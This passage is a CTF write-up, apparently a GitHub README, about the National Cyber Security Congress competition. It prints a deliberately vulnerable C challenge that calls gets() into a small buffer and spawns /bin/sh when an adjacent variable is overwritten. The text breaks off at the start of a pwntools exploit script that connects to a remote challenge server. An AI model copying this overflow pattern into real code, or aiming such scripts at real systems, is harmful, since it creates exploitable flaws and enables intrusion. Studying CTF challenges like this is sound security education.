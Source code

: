 # National Cyber Security Congress

[NCSC](https://www.facebook.com/NationalCSC), organized by Securinets, hosted an 8 hours CTF, started the 29th of January at 23:00 (GMT +1). <br/>
I've participated in the CTF with [Aziz Zribi](https://www.facebook.com/Aziz.Zribi.Z), [Zakaria Soussi](https://www.facebook.com/zakaria.soussi.12) & [Anas Chaibi](https://www.facebook.com/chanas07) as a team. We ranked the 7th out of 52 teams.

<br/>
<hr>

* ### Binary exploitation

  #### 1. Babypwn
    That's a pretty basic challenge, here is the source code:
    <details>
    <summary>Show</summary>

    ```C
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    void init_buffering() {
      setvbuf(stdout, NULL, _IONBF, 0);
      setvbuf(stdin, NULL, _IONBF, 0);
      setvbuf(stderr, NULL, _IONBF, 0);
    }
    int main(){
      int x = 0x41414141;
      char name[20];
      init_buffering(); // ignore this line
      puts("what's your name ?");
      gets(name);
      if(x != 0x41414141) {
        execve("/bin/sh", 0, 0);
      }
      return 0;
    }
    ```
    </details>

    We only need to overwrite `x` value in memory so we can just send a payload long enough to overwrite it. Here is a script for this challenge:

    <details>
    <summary>Show</summary>

    ```python
    from pwn import *

    # nc 52.188.108.186 1239
    conn = remote('52.188.108.186',1239)
